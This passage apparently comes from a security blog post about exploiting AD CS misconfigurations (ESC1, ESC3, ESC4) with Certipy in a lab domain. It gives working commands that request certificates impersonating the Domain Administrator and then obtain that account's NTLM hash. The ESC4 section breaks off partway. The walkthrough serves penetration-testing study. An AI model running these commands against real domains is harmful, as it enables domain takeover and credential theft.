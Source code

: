 <br />

### Exploitation of ESC1

After running Certipy with the “find” flag, if a certificate template allows client authentication, allows the requestor to issue a SAN (subject alternative name), and the current user group has enrollment rights, the Domain is vulnerable to ESC1.

Using Certipy, we can directly request a certificate from the CA which can be used for Domain privilege escalation:

```
certipy req -u attacker -p 'P@ssw0rd' -target-ip 192.168.1.2 -ca 'lab-DC-CA' -template 'ESC1' -upn 'administrator@lab.lan'
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/888d50e9-491d-410d-899d-bdd4043d5670)

Then, using the certificate to authenticate to the DC, request the NTLM hash of the user specified in the SAN, in most cases, the Domain Administrator.

```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'lab.lan' -dc-ip 192.168.1.2
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/938f2223-8d76-404c-b4f7-e63ea8898a1c)

<br />

### Exploitation of ESC3

First request a certificate as the current user:

```
certipy req -u attacker -p 'P@ssw0rd' -target-ip 192.168.1.2 -ca 'lab-DC-CA' -template 'ESC3'
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/4dd7dcbb-387d-41d3-a268-0db660744213)

Then utilize that certificate to authenticate on behalf of the Domain Administrator:

```
certipy req -u attacker -p 'P@ssw0rd' -target-ip 192.168.1.2 -ca 'lab-DC-CA' -template 'User' -on-behalf-of 'lab\administrator' -pfx 'attacker.pfx'
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/b4ed09e4-ab0b-474a-90f5-64cc0aefad81)

Then we can utilize the new certificate from the Administrator with the "auth" flag, just like the previous section.

<br />

### Exploitation of ESC4

With a user that has ACL related control over the certificate template, we can just change the template to be vulnerable to ESC1, ensure to save the old configuration to restore the template after exploitation.
